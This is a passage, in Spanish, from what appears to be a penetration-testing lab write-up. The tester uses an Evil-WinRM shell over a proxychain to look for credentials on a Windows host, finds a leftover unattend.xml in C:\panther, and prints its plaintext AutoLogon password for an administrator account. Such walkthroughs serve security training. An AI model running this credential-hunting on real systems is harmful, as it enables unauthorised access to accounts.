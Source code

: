 Volviendo a la tarea en cuestión. Nuestro usuario no es un administrador local, y `whoami /priv` no muestra ningún privilegio útil. Al revisar el módulo `Windows Privilege Escalation`, no encontramos nada interesante, así que busquemos credenciales. Después de investigar un poco, encontramos un archivo `unattend.xml` sobrante de una instalación anterior.



```r
*Evil-WinRM* PS C:\Users\backupadm\desktop> cd c:\panther

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
*Evil-WinRM* PS C:\panther> dir


    Directory: C:\panther


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2022   2:17 PM           6995 unattend.xml
```

Verifiquemos si contiene contraseñas, ya que a veces lo hacen.



```r

*Evil-WinRM* PS C:\panther> type unattend.xml

|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
|S-chain|-<>-127.0.0.1:8083-<><>-172.16.8.50:5985-<><>-OK
<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="oobeSystem">
        <component name="Microsoft-Windows-International-Core" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <InputLocale>de-de</InputLocale>
            <SystemLocale>de-de</SystemLocale>
            <UILanguage>de-de</UILanguage>
            <UILanguageFallback>de-de</UILanguageFallback>
            <UserLocale>de-de</UserLocale>
        </component>
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <OOBE>
                <HideEULAPage>true</HideEULAPage>
                <HideWirelessSetupInOOBE>true</HideWirelessSetupInOOBE>
                <NetworkLocation>Work</NetworkLocation>
                <ProtectYourPC>1</ProtectYourPC>
            </OOBE>
            <AutoLogon>
                <Password>
                    <Value>Sys26Admin</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>1</LogonCount>
                <Username>ilfserveradm</Username>
            </AutoLogon>
        
        <SNIP>

        </component>
```